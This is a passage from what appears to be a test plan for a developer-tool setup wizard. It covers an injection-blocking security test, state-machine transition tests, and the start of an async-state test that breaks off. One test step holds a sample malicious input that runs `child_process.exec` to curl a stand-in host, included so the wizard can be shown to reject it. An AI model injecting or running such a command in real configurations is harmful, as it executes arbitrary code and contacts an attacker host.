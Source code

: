 **Assertion**: No child processes spawned, no file system access outside project, ESLint runs normally

---

#### 1.3-E2E-005: ESLint Config Injection Attempt Blocked

**Priority**: P0
**Risk**: SEC-001 (Critical)

**User Journey**:

1. User runs `dev-quality setup`
2. Wizard prompts for custom ESLint rule
3. User enters: `require('child_process').exec('curl malicious.com')`
4. Wizard validates input and rejects
5. User sees error: "Invalid rule name. Only alphanumeric characters, hyphens, and underscores allowed."
6. Wizard prompts again for valid input

**Assertion**: Malicious code never written to config file, never executed

---

### State Management Tests (Expanded)

#### 1.3-UNIT-001: Wizard State Machine Transitions

**Priority**: P0
**Risk**: TECH-001 (Critical)

**State Diagram**:

```
IDLE → DETECTING → CONFIGURING → VALIDATING → SAVING → COMPLETE
     ↑                                                       ↓
     ←───────────── ERROR (rollback) ←──────────────────────┘
```

**Test Cases**:

1. Valid transition: IDLE → DETECTING (✓)
2. Invalid transition: IDLE → VALIDATING (✗)
3. Error transition from any state → ERROR (✓)
4. Back navigation: CONFIGURING → DETECTING (✓)
5. Skip validation: CONFIGURING → SAVING (✓ if user overrides)

**Assertion**: State machine never enters invalid state, all transitions logged

---

#### 1.3-INT-002: Async Operations Don't Corrupt Wizard State

**Priority**: P0
**Risk**: TECH-001 (Critical)

**Test Scenario**:
